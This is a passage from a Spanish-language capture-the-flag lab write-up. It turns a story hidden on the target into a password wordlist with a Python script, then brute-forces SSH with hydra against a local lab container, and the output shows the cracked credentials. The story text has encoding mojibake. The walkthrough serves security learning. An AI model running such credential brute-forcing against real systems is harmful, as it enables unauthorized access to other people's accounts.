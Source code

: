 ```python
 omprendiÃ³ que era esencial mantener ese equilibrio para el bienestar de todo el reino.
 
 Con el Cristal_de_la_Aurora a salvo, Mario y Pinguino regresaron al claro del bosque. El pingÃ¼ino le agradeciÃ³ a Mario por su valentÃ­a y bondad, y le dijo que siempre podrÃ
 ­a contar con el bosque para cualquier futuro desafÃ­o.
 
 Desde ese dÃ­a, Mario visitÃ³ el Bosque de Nieve Eterna cada vez que necesitaba un consejo sabio, y la leyenda del pingÃ¼ino guardiÃ¡n del cristal se convirtiÃ³ en una histori
 a popular en el Reino de los Hongos, recordando a todos que la bondad y la valentÃ­a siempre encuentran su recompensa.
 
 by less
 """
 
 # Normalizar el texto eliminando signos de puntuación, pero conservando guiones bajos y mayúsculas
 texto = re.sub(r'[^\w\s_]', '', texto)  # Eliminar signos de puntuación excepto guiones bajos
 
 # Dividir el texto en palabras
 palabras = texto.split()
 
 # Obtener las palabras únicas
 palabras_unicas = set(palabras)
 
 # Imprimir las palabras únicas
 for palabra in sorted(palabras_unicas):
     print(palabra)
```

```shell
chmod +x generate_dic.py
```

Y lo ejecutamos.

```shell
python3 generate_dic.py > dic.txt
```

Y ahora con ese diccionario, tiramos un `hydra`.

### hydra

```shell
hydra -l less -P dic.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-27 10:54:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 223 login tries (l:1/p:223), ~4 tries per task
[DATA] attacking ssh://172.23.0.2:22/
[22][ssh] host: 172.23.0.2   login: less   password: Cristal_de_la_Aurora
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 20 final worker threads did not complete until end.
[ERROR] 20 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-27 10:54:13
```
